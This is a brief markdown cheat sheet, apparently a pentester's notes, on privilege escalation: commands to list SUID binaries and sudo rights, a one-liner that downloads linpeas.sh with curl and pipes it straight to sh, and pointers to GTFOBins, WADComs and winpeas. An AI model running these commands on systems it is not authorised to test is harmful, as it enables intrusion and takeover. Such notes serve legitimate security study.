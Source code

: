 # Linux - GTFOBins
## [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#sudo)
### if there is remote code execution you can use gtfobins for reverse shells
### finding binaries with SUID
```bash
find / -perm /4000 2> /dev/null
```

### finding sudo commands
```bash
sudo -l
```

### lastly, use linpeas so it can find every other attack vector for you
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

# Windows - WADComs
## [WADComs](https://wadcoms.github.io/#)
### use winpeas
[winpeas download](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### use WADComs to exploit whatever winpeas found
